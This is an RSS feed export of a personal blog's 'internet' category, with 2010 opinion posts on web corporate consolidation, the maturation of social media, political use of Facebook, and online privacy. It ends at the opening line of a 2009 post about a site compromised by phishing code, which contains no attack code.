

<?xml version="1.0" encoding="UTF-8"?>
<rss version="2.0"
	xmlns:content="http://purl.org/rss/1.0/modules/content/"
	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
	xmlns:dc="http://purl.org/dc/elements/1.1/"
	xmlns:atom="http://www.w3.org/2005/Atom"
	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
	>

<channel>
	<title>Chronosynclastic Infundibulum &#187; internet</title>
	<atom:link href="http://www.semanticoverload.com/category/internet/feed/" rel="self" type="application/rss+xml" />
	<link>http://www.semanticoverload.com</link>
	<description>The world through my prisms</description>
	<lastBuildDate>Thu, 07 Apr 2011 17:36:17 +0000</lastBuildDate>
	<language>en-US</language>
	<sy:updatePeriod>hourly</sy:updatePeriod>
	<sy:updateFrequency>1</sy:updateFrequency>
	<generator>http://wordpress.org/?v=3.5</generator>
		<item>
		<title>Corporate Consolidation in Web 2.0</title>
		<link>http://www.semanticoverload.com/2010/08/21/corporate-consolidation/</link>
		<comments>http://www.semanticoverload.com/2010/08/21/corporate-consolidation/#comments</comments>
		<pubDate>Sun, 22 Aug 2010 00:33:28 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[deregulation]]></category>
		<category><![CDATA[google]]></category>
		<category><![CDATA[intel]]></category>
		<category><![CDATA[media]]></category>
		<category><![CDATA[oracle]]></category>
		<category><![CDATA[yahoo]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=688</guid>
		<description><![CDATA[In the 1960s, USA was host to a huge array of small business and stores. They have all but disappeared. The consolidation of corporations into the gaints that we see now have either gobbled up the mom-and-pop stores or driven them out of business. This started with the deregulation under Regan in the 80s. Next [...]]]></description>
				<content:encoded><![CDATA[<p>In the 1960s, USA was host to a huge array of small business and stores. They have all but disappeared. The consolidation of corporations into the gaints that we see now have either gobbled up the mom-and-pop stores or driven them out of business. This started with the deregulation under Regan in the 80s. Next came the <a title="Deregulation of media: dangerous to democracy" href="http://www.consumersunion.org/telecom/kimmel-303.htm">deregulation of media</a> in the 90s which saw<br />
many local TV and radio stations disappear to be replaced by commercial radio stations across the American landscape. I have a strong suspicion that the Internet is next.</p>
<div id="attachment_689" class="wp-caption alignleft" style="width: 160px"><a href="http://www.blindfiveyearold.com/wp-content/uploads/2008/12/2009-internet-and-technology-predictions.png"></a><p class="wp-caption-text">source: blindfiveyearold.com</p></div>
<p>To clarify what I am talking about, take a look at the recent (and by recent I mean in the last 5 years or so) spate of acquisitions by all the big players in the Internet business (both hardware and software): Intel acquired McAfee, Google acquired Like.com (and before that YouTube, Blogger, Writely, and <a href="http://en.wikipedia.org/wiki/List_of_acquisitions_by_Google">many more</a>), Oracle acquired <a href="http://www.oracle.com/us/corporate/Acquisitions/amberpoint/index.html">AmberPoint</a> and <a href="http://www.oracle.com/secerno/index.html">Secerno</a>, Yahoo recently acquired <a href="http://en.wikipedia.org/wiki/List_of_acquisitions_by_Yahoo!">Korpol and citizensports.com</a>, Microsoft acquired Sentillion and Opalis <a href="http://en.wikipedia.org/wiki/List_of_companies_acquired_by_Microsoft_Corporation">among so many more</a>, Apple recently accquired <a href="http://www.macrumors.com/2010/01/05/apples-purchase-of-quattro-wireless-confirmed/">Quattro</a>, <a href="http://www.macrumors.com/2009/12/04/apple-acquires-streaming-music-service-lala-media/">Lala media</a>, <a href="http://www.macrumors.com/2010/04/02/apple-appears-to-have-acquired-intrinsity/">Intrinsity</a>, and <a href="http://www.macrumors.com/2010/04/28/apple-purchases-iphone-personal-assistant-company-siri/">Siri</a>, and Cisco has made over 48 acquisitions in the last decade following by IBM with 35 [<a href="http://blogs.wsj.com/venturecapital/2010/01/05/cisco-acquired-most-start-ups-in-decade-but-oracle-king-in-09/">source</a>].</p>
<p>This is just the tip of the iceberg, and if this is any indicator of things to come, then you can expect such large scale consolidation to leave the Internet services and infrastructure is very few large players. This coupled with the <a title="Huffington post of Google and Verzon's deal against net neutrality" href="http://www.huffingtonpost.com/josh-silver/google-verizon-deal-the-e_b_671617.html">betrayal of Google against net neutrality</a> makes for an ominous prediction.</p>
<p>Increasingly, it looks like the best hope of an Internet startup is to be acquired by one of these gaints because otherwise they risk being drowned by an &#8216;addon&#8217; service offered by these gaints (sometimes for free). A great example is <a href="http://mashable.com/2010/08/19/facebook-places-guide/">Facebook places</a> and <a href="http://googleblog.blogspot.com/2010/04/introducing-google-places.html">Google places</a> vs. <a href="http://gowalla.com/">Gowalla</a>, <a href="http://foursquare.com/">Foursquare</a>, and their kind. So all your mom-and-pop store equivalent of Web 2.0 are now being consolidated into Google, Yahoo, Facebook, Intel, Oracle, Cisco, and few others.</p>
<p>So why is this bad? To get an idea of where that is going to leave us, take a look at what happened with the deregulation of the radio and TV stations in the US. You can&#8217;t get decent local news  and happenings anywhere except a few major cities. Rest of the places, local coverage is spotty. All local music now have to go to the major recording and music capitals of the nation just to be heard on the radio in their own home town. As a member of a local community radio station, I know how difficult things have become for independent radio broadcasters.</p>
<p>Expect something similar for the web. Expect to lose the rich and diverse sources of information and entertainment you are used to receiving from the web. It may not happen this year, or even in the next 5 years. But in the next decade, the web is going to be far less free than you see it today. The corporations want it that way, and that is how it will stay because the politicians won&#8217;t vote otherwise.</p>
<p>Welcome to Web 3.0 :-)</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/21/corporate-consolidation/feed/</wfw:commentRss>
		<slash:comments>1</slash:comments>
		</item>
		<item>
		<title>On the maturation of social media</title>
		<link>http://www.semanticoverload.com/2010/08/10/social-media-maturation/</link>
		<comments>http://www.semanticoverload.com/2010/08/10/social-media-maturation/#comments</comments>
		<pubDate>Wed, 11 Aug 2010 00:51:16 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[networking]]></category>
		<category><![CDATA[rant]]></category>
		<category><![CDATA[technology]]></category>
		<category><![CDATA[beanie babies]]></category>
		<category><![CDATA[blog]]></category>
		<category><![CDATA[digg]]></category>
		<category><![CDATA[newsweek]]></category>
		<category><![CDATA[slinky]]></category>
		<category><![CDATA[social media]]></category>
		<category><![CDATA[social networking]]></category>
		<category><![CDATA[technorati]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=659</guid>
		<description><![CDATA[In this recent article, Newsweek claims that traditional social media like blogs and upcoming ones like twitter are on the decline because we as a people are simply too lazy and wouldn&#8217;t do something for free [hat tip: Patrix]. Newsweek has really embarrassed itself with this post. Let me explain how. First, let us examine [...]]]></description>
				<content:encoded><![CDATA[<p>In this <a title="Newsweek article on decline of social media" href="http://www.newsweek.com/2010/08/09/take-this-blog-and-shove-it.html">recent article</a>, Newsweek claims that traditional social media like blogs and upcoming ones like twitter are on the decline because we as a people are simply too lazy and wouldn&#8217;t do something for free [hat tip: <a href="http://www.ipatrix.com/3605/the-beginning-of-the-end-for-citizen-journalism/">Patrix</a>]. Newsweek has really embarrassed itself with this post. Let me explain how.</p>
<p>First, let us examine the evidence that Newsweek provides for the decline in social media.</p>
<ol>
<li><a href="http://www.wikimedia.org/">Wikimedia</a>, after its prolific crowdsourced contribution to <a href="http://www.wikipedia.org/">wikipedia</a> until 2009 is now having to recruit contributors and editors.</li>
<li>According to <a href="http://technorati.com/">Technorati</a>, professional bloggers are on the rise whereas hobbyist loggers (like your truly) are on the decline. 95% of the blogs are abandoned in the first month. A recent Pew study found that blogging has withered as a pastime, with the number of 18- to 24-year-olds who identify themselves as bloggers declining by half between 2006 and 2009.</li>
<li>Although twitter is adding users at an astounding rate, 90% of tweets come from 10 percent of users, according to a 2009 Harvard study. Between 60 and 70 percent of people signing up for twitter quit within a month, according to a recent Nielsen report.</li>
<li>While <a href="http://www.digg.com">Digg</a> won readers, it struggled to sign up voters and has forced a change in format to something similar to social networking sites like facebook.</li>
</ol>
<p>Based on this evidence, the article concludes that (a) traditional social media and citizen journalism is on the decline (the only kind of social media that is rising is the one that allows people to connect with each other), and (b) the underlying reason for it is that people are lazy to do anything for free. Do you seen the disconnect in logic and reasoning here?</p>
<h3>Novelty Factor</h3>
<p>First, the author of the article chooses to completely ignore the &#8216;novelty&#8217; factor that we are all subject to. Remember <a href="http://en.wikipedia.org/wiki/Beanie_Baby">Beanie babies</a>? How about the <a href="http://en.wikipedia.org/wiki/Slinky">slinky</a>? They were wildly popular when they first came out, but not any more. Is that because people got too lazy to play with them? Of course not! It&#8217;s the novelty factor. When people see something new, it will pique their interest and exploring it is a reward unto itself. So people tend to use it to understand it. Once the novelty factor wears out, only the hardcore fans and professionals occupy the niche. It explains everything from the slinky and beanie babies to blogs and twitter. I am surprised that the article did not make that connection.</p>
<h3>Knowledge Generation and Gatekeepers</h3>
<p>Second, how is wikimedia&#8217;s recruiting professionals a bad thing, even for social media? Knowledge validity is not subject to democracy. Evolution does not become untrue simply because a majority of our population choose to be Bible thumpers. If wikimedia intends to be taken seriously as a repository of human knowledge, it needs gatekeepers and knowledge generation agents who are proficient in their respective areas and disciplines. This ensures that crowdsourced information and knowledge is validated before it pollutes the repository.</p>
<h3>Blogging Bubble</h3>
<p>Third, the article seems to assume that everyone who started a blog started it with the intention of generating information to be shared with everyone. This is simply not true (see my earlier point about the novelty factor). In fact, I will hazard to assert that a vast majority of the people who blog do not do it to generate more information for the benefit of others. I will go on to claim that it is blogs like these that tend to be abandoned. Therefore, no harm no foul there. Its not too different from an economic bubble really. Much like the housing bubble gave people and unrealistic estimate of the value of real estate, the &#8216;blogging  bubble&#8217; (the phenomenon of everyone on the street having a blog of their own) gave people an inflated idea of the amount of information being generated by the blogsphere. When the blogging bubble is now burst, and the `decline&#8217; or `stagnation&#8217; we see now is the intrinsic value of the information generated by the blogsphere all along.</p>
<p>Not everyone wants to generate, aggregate, and share information. That is perfectly fine. If you have everyone generating information, who is there to consume, process, and utilize them?</p>
<h3>Social Cliques</h3>
<p>Fourth, when it comes to platforms like Digg, they started with the premise that if a lot of people &#8220;dig&#8221; something, then the odds are that a lot more people will be interested in the information that has been &#8220;dug&#8221;. As it turns out, the premise is not entirely accurate. People are members of relative small cliques, and the value of the same piece of information varies  from one clique to another. Digg recognized this and has taken steps to reorganize the site to align with this empirical observation. That does not mean that social media is on a decline. It simply means that we are using social media differently.</p>
<h3>Motivation for Congnitive Tasks</h3>
<p>The article also talks about putting rewards in place to encourage participation in sites like Gawker and Huffington Post and then makes a snide remark about the next step being offering money. Obviously Newsweek is ignorant to Dan Pink&#8217;s <a title="Dan Pink on what motivates people" href="http://www.thersa.org/events/vision/vision-videos/dan-pink-drive">presentation on what motivates people</a>. The bottom line is that money is not a motivator for cognitive tasks. (in fact, it could be a de-motivator) Most of traditional social media is about performing cognitive tasks to generate and collate information.</p>
<p>As a counter example, consider <a href="http://www.linux.org/">Linux</a>, an open-source operating system. It has thousands of contributors who work for free to create a product and then give that product away for free! It&#8217;s not too different from many bloggers who blog for free and allow viewing the blog for free. It&#8217;s not too different from wikimedia contributors adding and editing articles. Linux and the open-source movement is as strong as ever. So why should blogs and wikimedia be any different?</p>
<p>Then what about the data and statistics that the article presented? Well, that simply says that a whole bunch of people jumped on the bandwagon for all the wrong reasons and now they getting off the bandwagon. But there are still a sufficient number of individuals left to carry on the movement.</p>
<p>So yeah, the blogsphere is maturing, wikimedia is maturing, not dying. All that means is that now on, the only people who are going to get on to traditional social media are the ones who see an intrinsic value in the participation, and I am pretty confident that there will be plenty of people. Think Linux, think open source. This is no different.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/10/social-media-maturation/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
		<item>
		<title>My interview on Information Underground with Teddy Wilson on KEOS 89.1FM</title>
		<link>http://www.semanticoverload.com/2010/08/08/my-interview-on-information-underground/</link>
		<comments>http://www.semanticoverload.com/2010/08/08/my-interview-on-information-underground/#comments</comments>
		<pubDate>Mon, 09 Aug 2010 04:12:32 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[discussion]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[blogging]]></category>
		<category><![CDATA[blogsphere]]></category>
		<category><![CDATA[information underground]]></category>
		<category><![CDATA[interview]]></category>
		<category><![CDATA[keos]]></category>
		<category><![CDATA[radio]]></category>
		<category><![CDATA[social media]]></category>
		<category><![CDATA[teddy wilson]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=645</guid>
		<description><![CDATA[I was on the radio show Information Underground with Teddy Wilson on KEOS 89.1FM Bryan/College Station. We discussed blogging, bloggers, the blogsphere, their influence on mainstream media, and the future of blogging. Here is the entire radio show sourced from Blogtalkradio: Listen to internet radio with Teddy on KEOS on Blog Talk Radio]]></description>
				<content:encoded><![CDATA[<p>I was on the radio show <a href="http://www.informationunderground.net/2010/08/this-week-on-information-underground.html">Information Underground</a> with Teddy Wilson on <a href="http://www.keos.org/">KEOS 89.1FM</a> Bryan/College Station. We discussed blogging, bloggers, the blogsphere, their influence on mainstream media, and the future of blogging.<br />
Here is the entire <a title="Information Underground August 8th 2010" href="http://www.blogtalkradio.com/informationunderground/2010/08/08/information-underground--august-8-2010">radio show sourced from Blogtalkradio</a>:<br />
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.adobe.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,0,0" name="btr" width="210" height="108" id="btr"><param name="movie" value="http://www.blogtalkradio.com/btrplayer.swf?file=http%3A%2F%2Fwww%2Eblogtalkradio%2Ecom%2Fplaylist%2Easpx%3Fshow%5Fid%3D1183804&#038;autostart=false&#038;bufferlength=5&#038;volume=80&#038;borderweight=1&#038;bordercolor=#999999&#038;backgroundcolor=#FFFFFF&#038;dashboardcolor=#0098CB&#038;textcolor=#F0F0F0&#038;detailscolor=#FFFFFF&#038;playlistcolor=#999999&#038;playlisthovercolor=#333333&#038;cornerradius=10&#038;callback=http://www.blogtalkradio.com/FlashPlayerCallback.aspx?referrer_url=/show.aspx&#038;C1=7&#038;C2=6042973&#038;C3=31&#038;C4=&#038;C5=&#038;C6=&#038;hostname=Teddy on KEOS&#038;hosturl=http://www.blogtalkradio.com/informationunderground" /><param name="quality" value="high" /><param name="wmode" value="transparent" /><param name="menu" value="false" /><param name="allowScriptAccess" value="always" /><embed src="http://www.blogtalkradio.com/btrplayer.swf?file=http%3A%2F%2Fwww%2Eblogtalkradio%2Ecom%2Fplaylist%2Easpx%3Fshow%5Fid%3D1183804&#038;autostart=false&#038;bufferlength=5&#038;volume=80&#038;borderweight=1&#038;bordercolor=#999999&#038;backgroundcolor=#FFFFFF&#038;dashboardcolor=#0098CB&#038;textcolor=#F0F0F0&#038;detailscolor=#FFFFFF&#038;playlistcolor=#999999&#038;playlisthovercolor=#333333&#038;cornerradius=10&#038;callback=http://www.blogtalkradio.com/FlashPlayerCallback.aspx?referrer_url=/show.aspx&#038;C1=7&#038;C2=6042973&#038;C3=31&#038;C4=&#038;C5=&#038;C6=&#038;hostname=Teddy on KEOS&#038;hosturl=http://www.blogtalkradio.com/informationunderground" width="210" height="108" quality="high" pluginspage="http://www.adobe.com/go/getflashplayer" type="application/x-shockwave-flash" wmode="transparent" menu="false" allowScriptAccess="always" name="btr"></embed></object>
<div style="font-size: 10px;text-align: center; width:210px;">Listen to <a href="http://www.blogtalkradio.com/">internet radio</a> with <a href="http://www.blogtalkradio.com/informationunderground">Teddy on KEOS</a> on Blog Talk Radio</div>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/08/my-interview-on-information-underground/feed/</wfw:commentRss>
		<slash:comments>1</slash:comments>
		</item>
		<item>
		<title>Social Media: on why Obama won and Palin won&#8217;t</title>
		<link>http://www.semanticoverload.com/2010/08/07/social-media-obama-vs-palin/</link>
		<comments>http://www.semanticoverload.com/2010/08/07/social-media-obama-vs-palin/#comments</comments>
		<pubDate>Sun, 08 Aug 2010 00:24:29 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[networking]]></category>
		<category><![CDATA[politics]]></category>
		<category><![CDATA[censorship]]></category>
		<category><![CDATA[facebook]]></category>
		<category><![CDATA[FISA]]></category>
		<category><![CDATA[Obama]]></category>
		<category><![CDATA[Palin]]></category>
		<category><![CDATA[slate]]></category>
		<category><![CDATA[TED]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=621</guid>
		<description><![CDATA[Obama&#8217;s unprecedented use of social media as a critical marketing and canvasing tool to enable his historic victory in the 2008 presidential race has been dissected and beaten to death. I am not here to resurrect that zombie. However, I will take a singular incident of his campaign to illustrate my point (that is, why [...]]]></description>
				<content:encoded><![CDATA[<p>Obama&#8217;s unprecedented use of social media as a critical marketing and canvasing tool to enable his historic victory in the 2008 presidential race has been dissected and beaten to death. I am not here to resurrect that zombie. However, I will take a singular incident of his campaign to illustrate my point (that is, why Obama won and Palin won&#8217;t.)</p>
<div style="width: 100%; display: block;"><a href="../../../wp-content/uploads/2010/08/my.barackobama.com_.jpg"></a><a href="../../../wp-content/uploads/2010/08/sarahpalin.fb_.jpg"></a></div>
<p><span id="more-621"></span>The incident I am talking about was cited by Clay Shirky in this TED video on &#8220;<a href="http://www.ted.com/talks/clay_shirky_how_cellphones_twitter_facebook_can_make_history.html">How social media can make history</a>.&#8221; The incident is as follows: Obama&#8217;s campaign started a portal http://my.barackobama.com for all of Obama&#8217;s supports to gather and discuss issues related to the campaign, organization, marketing, and Obama&#8217;s platform itself. Now, in January 2008 Obama had announced that he was against the<a title="FISA amendments act of 2008" href="http://www.sourcewatch.org/index.php?title=FISA_Amendments_Act_of_2008"> FISA amendment </a>that allowed warrentless wiretapping, but in mid-summer 2008, he reversed his opinion and said that he would support that FISA amendment. Expectedly, there was a huge outcry against his reversal among his supporters and they thronged to the discussion forum in http://my.barackobama.com, voiced their concerns, and asked Obama to not support the FISA amendment. The outcry was so loud that Obama had to release a statement that essentially said that he has heard his supporters loud and clear; his position is based on his assessment of the amendment; the reasons for which he supports it still stands; so he will continue to support the bill and take the hit from his supporters on this one.</p>
<p>Naturally, his supporters weren&#8217;t happy. But later on, there was realization among his supporters that although Obama didn&#8217;t agree with them, he never tried to shut them up. There was no censoring of dissenting opinions. There was no banning of people who didn&#8217;t like his position or platform. This mature treatment of social media as an extension of democracy and free speech ensured that he did not lose his support base.</p>
<p>Now, fast forward to present day. No political public figure is more prolific on social media than <a href="http://www.facebook.com/sarahpalin">Sarah Palin</a>. She has over 2 million supporters on her facebook page. Strangely, the comments on her facebook page is, for the most part, lavish outpouring of admiration, encouragement, support, and agreement. There are very few dissenting opinions, if any at all. All this seemed fishy to John Dickerson from <a href="http://www.slate.com/">The Slate</a>, so he and his colleague Jeremy Singer-Vine decided to find out what was really going on. Singer-Vine wrote a <a title="How Slate tracked deletions" href="http://www.slate.com/id/2262544/sidebar/2262679/">program to track deletions</a> of comments on Sarah Palin&#8217;s facebook page and <a title="Slate article &quot;Not Sarah Palin's Friends&quot;" href="http://www.slate.com/id/2262544/pagenum/all/#p2">found that the &#8220;wall&#8221; on Sarah Palin&#8217;s page was being sanitized through heavy censorship</a> to the point of frustration among her supporters. Naturally the comments expression such frustrations were deleted as well. For example: &#8220;Why are the few comments expressing disagreement with this endorsement being deleted?&#8221; wrote one. &#8221; Just because some of us disagree with the endorsement doesn&#8217;t mean that we don&#8217;t follow Sarah Palin.&#8221; That was deleted too.</p>
<p>Such censorship is almost guaranteed to backfire on Palin. As a public figure running for office, the way one treats their supports is strongly indicative of how they will treat their constituents, and everyone, including supporters, realize this. This why is why Obama&#8217;s supporters didn&#8217;t abandon him over the FISA vote, and there is a very good chance that Palin&#8217;s supporters will desert her.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/07/social-media-obama-vs-palin/feed/</wfw:commentRss>
		<slash:comments>2</slash:comments>
		</item>
		<item>
		<title>If a tree falls in the forest&#8230;</title>
		<link>http://www.semanticoverload.com/2010/08/04/if-a-tree-falls-in-the-forest/</link>
		<comments>http://www.semanticoverload.com/2010/08/04/if-a-tree-falls-in-the-forest/#comments</comments>
		<pubDate>Thu, 05 Aug 2010 04:42:25 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[debate]]></category>
		<category><![CDATA[discussion]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[legal]]></category>
		<category><![CDATA[technology]]></category>
		<category><![CDATA[Hasan Elahi]]></category>
		<category><![CDATA[privacy]]></category>
		<category><![CDATA[security]]></category>
		<category><![CDATA[Tracking Transience]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=570</guid>
		<description><![CDATA[&#8220;If a tree falls in the forest and there is no one to hear it, does it still make a sound?&#8221; This, in essence, is the issue of privacy. If a specific action (or information) is unobservable (even after the fact) by no one else but the actor, then that act (or information) is, by [...]]]></description>
				<content:encoded><![CDATA[<p><a href="../../../wp-content/uploads/2010/08/privacy.jpg"></a><em>&#8220;If a tree falls in the forest and there is no one to hear it, does it still make a sound?&#8221;</em> This, in essence, is the issue of privacy. If a specific action (or information) is unobservable (even after the fact) by no one else but the actor, then that act (or information) is, by definition, private. The actor could potentially by a single individual or a cohort. Now, because we are in the so-called &#8220;information age&#8221;, increasingly greater portions of our actions and our information are becoming observable. Unfortunately, very few of us realize this, and so many actions that we thought were private, are not so, and this getting a lot of people into hot water. Naturally, there is a backlash, and resulting turbulence is now presenting itself in all its glory all over the Internet.</p>
<p>Even though there is a lot of noise about privacy issues, there isn&#8217;t really anyone with a clear picture on where things are, where they will be heading, where they should be heading, and how do we as individuals adapt to these changes. I think the problem is that of methodology. People are trying to solve new-age problems with old-age tools; it&#8217;s not going to work. In this post, I attempt to explain my foregoing sentences.<br />
<span id="more-570"></span></p>
<p><strong>Fatalists and conservatives.</strong> Let us take a look at the two major camps on the issue of privacy today. On one side you have the likes of <a title="Mark Zukerberg on privacy" href="http://www.readwriteweb.com/archives/facebooks_zuckerberg_says_the_age_of_privacy_is_ov.php">Mark Zukerberg</a>, <a title="David Thomson on the future of privacy" href="http://volokh.com/2010/06/11/the-future-of-privacy-facial-recognition-public-facts-and-300-million-little-brothers/">David Thomson</a>, and <a title="BBC Article: Web attacks know where you live" href="http://www.bbc.co.uk/news/technology-10850875">Samy Kamkar</a> who believe that privacy is dead (the fatalists), and on the other side you have the likes of <a href="http://www.futureofprivacy.org/2008/11/15/the-future-of-privacy/">Future of Privacy Forum</a> and <a href="http://www.schneier.com/blog/archives/2006/03/the_future_of_p.html">Bruce Schneier</a> who believe that maintaining our privacy is only a matter of setting up the right legal/economic framework of incentives and disincentives within the present (and future) context (the conservatives).</p>
<p>Both camps have valid points. Despite all the brouhaha about privacy issues with facebook, facebook continues to add more users, and current users continue to treat facebook as their repository of their social life and social interactions. So maybe privacy really is dead! But the very fact that there is such a backlash reveals the fissure in society where you have a significant faction that jealously guards many of its actions and its information, but finds that it is not able to maintain its privacy because &#8216;other entities&#8217; (friends, banks, credit card companies, and such) are making them public. And there are still others who simply do not realize that what they think is private really is not. So the question is, what is the state of the art on this issue?</p>
<p><strong>Privacy vs. Security. </strong>The first problem that you encounter when trying to answer that question is that there no common understanding of what privacy really is. Often people bleed their concerns of security into the issue of privacy. This is muddying the waters to the point where no coherent narrative emerges. While security is and should always be a grave concern, it an orthogonal issue to privacy. One possible consequence of loss of privacy is that the security of our property and resources is at jeopardy, but that is not a basis to conflate privacy with security. There should be separate discussions on each issue. They may complement each other but one should not supplement the other. Remember, a secure life does not guarantee a private life!</p>
<p><strong>Privacy through public obscurity. </strong>Now that we know we talking exclusively about privacy and not security, we can move forward. In the past privacy has been protected largely due to the technological limitations that made several tasks intractable. Such intractability lead to privacy through public obscurity. For example, before the advent of telegraph and telephone, there was very little to worry about legitimate information about your activities (that you deem private) to your relatives in a different state. Why? Because of what I like to call <a href="http://en.wikipedia.org/wiki/Chinese_whispers">Chinese-Whispers</a> effect. But that changes with the ubiquity of telephones. Similarly, before the advent of the internet, at any point in your life, you were free to &#8216;reinvent&#8217; yourself by simply moving to a new town, getting a new job and simply not citing individuals from your old life as references. There was very little anyone could reasonably do to dig up your past life (of course, you could always hire a private-eye, but that would constitute an unreasonable effort).</p>
<p>In fact, the privacy of your online communications with your bank are established by privacy through public obscurity. Worried? Don&#8217;t be, not for now at least. All `secure&#8217; online communications use what is called public-key cryptography which involves dealing with numbers that have 100-200 digit prime numbers as their factors and encrypting messages with these numbers. In order to decrypt the message, one has to be able to factorize the large number into its constituent large prime numbers. The fastest-to-date mechanism to factorize a number is still by brute-force, and hence intractable. For even the fastest computers, this task could take years, by which time the contents of your private communication will be (hopefully) irrelevant. Thus, privacy through public obscurity.</p>
<p>I bring up the example of public-key encryption for a reason: the task of factorizing large numbers, although intractable right now, might not be so in the future (it wont be because the computer got faster, it will be because either <a title="Shor's factoring algorithm" href="http://en.wikipedia.org/wiki/Shor%27s_algorithm">quantum computers become a reality</a>, or the answer to the famous <a href="http://en.wikipedia.org/wiki/P_versus_NP_problem">P=NP problem</a> in computer science is the affirmative). If that happens, then what do you think society&#8217;s response will be? Do you do expect two camps: one that says cryptography is dead, and another one that says all mechanisms to factorize numbers should be outlawed or disincentivised some how? Of course not. That&#8217;s an absurd proposition! The response will be to build a better cryptographic technique that works despite the state of the art.</p>
<p>We are facing a similar situation with privacy today, and the two camps that I referred to earlier are not helping. The fact remains that these days more often than not <em>someone is hearing a tree fall</em> in the forest, and so more trees are making a sound when they fall. So how do we deal with it?</p>
<p><strong>First, learn to give up some of your privacy.</strong> Technology has made a lot of tasks tractable, and our physical and mental abilities and faculties are not evolving at a rate to match the pace of technology. Consequently, we are not able to make all our actions intractable to the new technology. So we have to give up some of our privacy. While this may be a ghastly notion for people in the western hemisphere, it is surprisingly common for societies in the eastern hemisphere to trade privacy for social support structure, security, and (more controversially) for happiness. Much like we have given up privacy for air flights but not for bus or train journeys, we may have to give up privacy in certain aspects of your life that we had otherwise considered to be private.</p>
<p>As for the natural follow-up question, what aspect of our privacy do we have to give up, I honestly don&#8217;t know. My speculations and proposals here are of methodological nature. I am not answering questions. I am just trying to figure out what the right questions to ask are! Isn&#8217;t that the first step in arriving at a resolution to our privacy issues?</p>
<p><strong>Second, indulge in information overload.</strong> The less information you give out, the more useful every extra bit of information about you is. Inevitably, despite your best efforts, more information about you will leak out. So how do you counter that? With information overload. Take <a title="Hasan Elahi's homepage" href="http://elahi.sjsu.edu/">Hasan Elahi</a> as a classic example. After he was erroneously put on the FBI terrorist watch list, and he had to endure a gruelling questioning by the FBI that took up hours of his time and ultimately to no one&#8217;s benefit, he decide to turn the tables on FBI. He put up a website called <a href="http://trackingtransience.net/">Tracking Transience</a> where he has up up pictures, videos, and all sorts of evidence of where he has been and what he has been doing every hour of every day! Since there is already so much information about him available, any additional information about him is not so useful any more. Curiously, he doesn&#8217;t appear in any of this photographs. He is one behind the camera. So in a sense although he has given you so much information about him, he really hasn&#8217;t given you anything that is remarkably useful. Paradoxically, by revealing so much about himself online, he has secured his privacy. [For details, visit: <a href="http://memes.org/tracking-transience-hasan-elahi">http://memes.org/tracking-transience-hasan-elahi</a>]</p>
<p>Ok, so Tracking Transience works for Hasan, what about the rest of us? Again, I am only showing you where to being asking the right questions; I do not have answers for you.</p>
<p>Are there any more tools of this or different kind that we can employ? Arguably, yes. One needs to look harder, and looks at different places. The new tools are different in kind, and presumably, in an ironic twist, an artefact the technology that has precipitated the issue of privacy in the first place.</p>
<p>In conclusion, my argument simply is that you cannot use old tools of fatalism, legal recourse, and economic regulation to frame the debate of privacy and expect a resolution. They are simply the wrong tools for the job! I will wrap this post up by continuing with the metaphor with which I started this article: <strong><em>if the tree falls in the forest and there are people to hear it, then let them hear it, but make sure that every minute sound made by the tree and the trees around it are perpetually amplified and broadcast to where the sound made by the falling tree become noise and simply irrelevant!</em></strong></p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2010/08/04/if-a-tree-falls-in-the-forest/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
		<item>
		<title>If your site has been compromised with phishing attack code&#8230;</title>
		<link>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/</link>
		<comments>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/#comments</comments>
		<pubDate>Tue, 17 Mar 2009 07:30:42 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[legal]]></category>
		<category><![CDATA[technology]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[attack]]></category>
		<category><![CDATA[phishing]]></category>
		<category><![CDATA[php]]></category>
		<category><![CDATA[scam]]></category>
		<category><![CDATA[security]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[wachovia]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=316</guid>
		<description><![CDATA[I recently recevied the following email: To whom it may concern: Please be aware that Wachovia Corporation (“Wachovia”) is the owner of numerous United States and foreign trade marks and services marks used in connection with its financial services and products (the &#8220;Wachovia Marks&#8221;), including the Wachovia wordmark and Wachovia logo.  Wachovia has expended substantial [...]]]></description>
				<content:encoded><![CDATA[<p>I recently recevied the following email:</p>
<blockquote><p>To whom it may concern:</p>
